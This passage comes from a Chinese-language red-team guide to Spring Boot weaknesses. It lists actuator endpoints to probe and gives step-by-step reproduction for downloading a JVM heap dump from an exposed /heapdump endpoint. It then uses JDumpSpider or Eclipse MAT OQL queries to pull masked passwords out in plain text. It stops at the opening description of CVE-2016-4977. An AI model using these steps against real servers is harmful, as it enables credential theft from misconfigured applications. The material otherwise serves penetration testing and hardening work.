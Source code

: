 ```
/mappings
/actuator/mappings
/metrics
/actuator/metrics
/beans
/actuator/beans
/configprops
/actuator/configprops
```

### heapdump信息

**相关文章**
- [获取spring boot脱敏属性明文](https://www.jianshu.com/p/ae4be3af5231)
- [使用 MAT 查找 spring heapdump 中的密码明文](https://landgrey.me/blog/16/)

**相关工具**
- [whwlsfb/JDumpSpider](https://github.com/whwlsfb/JDumpSpider) - HeapDump 敏感信息提取工具
    ```bash
    # 需要使用Oracle JDK 1.8版本
    java -jar JDumpSpider-1.0-SNAPSHOT-full.jar heapdump
    ```

**复现**

找到想要获取的属性名,访问目标网站的 /env 或 /actuator/env 接口，搜索 ****** 关键词，找到想要获取的被星号 * 遮掩的属性值对应的属性名。

下载 jvm heap 信息,访问目标的 /heapdump 或 /actuator/heapdump 接口，下载应用实时的 JVM 堆信息

下载的 heapdump 文件大小通常在 50M—500M 之间，有时候也可能会大于 2G

使用 [Eclipse Memory Analyzer](https://www.eclipse.org/mat/downloads.php) 工具的 OQL 语句进行查询

```
select * from java.util.Hashtable$Entry x WHERE (toString(x.key).contains("password"))
或
select * from java.util.LinkedHashMap$Entry x WHERE (toString(x.key).contains("password"))
```

![](../../../../../assets/img/Security/RedTeam/Web安全/实验/Spring/1.webp)

---

## CVE-2016-4977 Spring Security OAuth2 远程命令执行漏洞

**描述**

Spring Security OAuth 是为 Spring 框架提供安全认证支持的一个模块.在其使用 whitelabel views 来处理错误时,由于使用了 Springs Expression Language (SpEL),攻击者在被授权的情况下可以通过构造恶意参数来远程执行命令.

**影响版本**
- spring_security_oauth 1.0.0 ~ 1.0.5
- spring_security_oauth 2.0.0 ~ 2.0.9
